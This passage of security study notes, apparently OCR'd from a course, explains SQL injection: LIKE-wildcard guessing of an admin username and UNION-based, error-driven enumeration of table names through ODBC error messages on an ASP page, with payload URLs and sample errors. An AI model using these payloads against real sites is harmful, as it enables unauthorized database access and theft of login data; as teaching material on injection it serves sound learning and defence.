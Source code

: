 - inserting <font color=OrangeRed> wildcard </font> characters (`like %`),
  - <font color=OrangeRed> LIKE ' % "&strPartNameInclude&" % ' </font>
  - Then, the `WHERE` clause `= TRUE` when the argument `strPartNameInclude` is included as part of a part name:
  - Then, all parts names include the string `PartName` will be returned.
  ```sql
  SELECT PartCost, PartName FROM PartsList
  WHERE PartName LIKE ' % " & strPartNameInclude & " % ';
  ```

- employ the wildcard symbol to guess the admin username:
  - querying with `ad%`.

---

### SQL injection - `UNION` and `LIKE` attacks

Incorporating the `UNION` and `LIKE` statements is to use the **ODBC error message** to gather information from the database.

Example 1:
- the page `https://page/index.asp?id=20`.
- use the `UNION` statement to set up a query as follows:
  ```sql
  https://page/index.asp?id=20 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES --
  ```
- This string attempts to `UNION` the integer `20` with another string from the database.
  - `INFORMATION_SCHEMA.TABLES`: hold data on all the tables in the server database
  - `TABLE_NAME field`: holds name of each table in the database.
  - `SELECT`: provide the name of the ﬁrst table in the database
  - `UNION`: result in the SQL server attempting to convert a character string to integer.

- This conversion will fail, error message will be return and provides the information:
  - the string could not be converted to an integer
  - provides the name of the first table in the database, namely `employeetable`.

  ```bash
  Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
  [Microsoft] [ODBC SQL Server Driver] [SQL Server]Syntax error converting the nvarchar value 'employeetable' to a column of data type int.
  /index.asp, line 6
  ```

- Then using the following statement, the name of the next table in the database tables will be returned
  ```sql
  https://page/index.asp?id=20 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
  WHERE TABLE_NAME not IN ('employeetable') --
  ```


Example 2:
- use the `LIKE` keyword in the following statement, additional information can be found:
  ```sql
  https://page/index.asp?id=20 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
  WHERE TABLE_NAME LIKE '%25 login%25'--
  ```
  - The term `'%25login%25'`: will be interpreted as `%login%` by the server.
  - The resulting **ODBC error message** would be:
    - The ODBC error message identifies a table name as `sys_login`.
